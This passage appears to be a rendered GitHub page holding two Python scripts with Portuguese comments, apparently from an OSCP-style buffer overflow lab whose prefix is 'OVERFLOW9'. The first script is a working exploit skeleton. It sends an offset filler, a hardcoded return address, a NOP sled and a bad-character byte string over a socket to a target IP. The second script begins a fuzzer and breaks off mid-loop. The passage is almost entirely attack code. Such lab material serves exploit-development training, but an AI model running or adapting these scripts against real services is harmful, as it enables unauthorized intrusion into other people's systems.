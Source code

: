 ```bash

args = parser.parse_args()

# Construção do buffer
overflow = "A" * args.offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12"
           "\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24"
           "\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36"
           "\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48"
           "\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
           "\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c"
           "\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e"
           "\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
           "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2"
           "\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
           "\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6"
           "\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8"
           "\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
           "\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc"
           "\xfd\xfe\xff")

buffer = args.prefix + overflow + retn + padding + payload + args.postfix

# Envio do buffer
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((args.ip, args.port))
    print(f"[*] Enviando buffer para {args.ip}:{args.port}...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("[+] Exploit enviado com sucesso!")
except Exception as e:
    print(f"[!] Erro ao conectar: {e}")
finally:
    s.close()

```

Script fuzzer att:
```bash
#!/usr/bin/env python3

import socket
import time
import sys
import argparse

# Configuração dos argumentos da linha de comando
parser = argparse.ArgumentParser(description="Fuzzer para testes de Buffer Overflow")
parser.add_argument("--ip", required=True, help="Endereço IP do alvo")
parser.add_argument("--port", type=int, default=1337, help="Porta do alvo (padrão: 1337)")
parser.add_argument("--timeout", type=int, default=5, help="Timeout da conexão (padrão: 5 segundos)")
parser.add_argument("--prefix", default="OVERFLOW9 ", help="Prefixo do buffer (padrão: 'OVERFLOW9 ')")

args = parser.parse_args()

# Inicialização do buffer
string = args.prefix + "A" * 100

while True:
```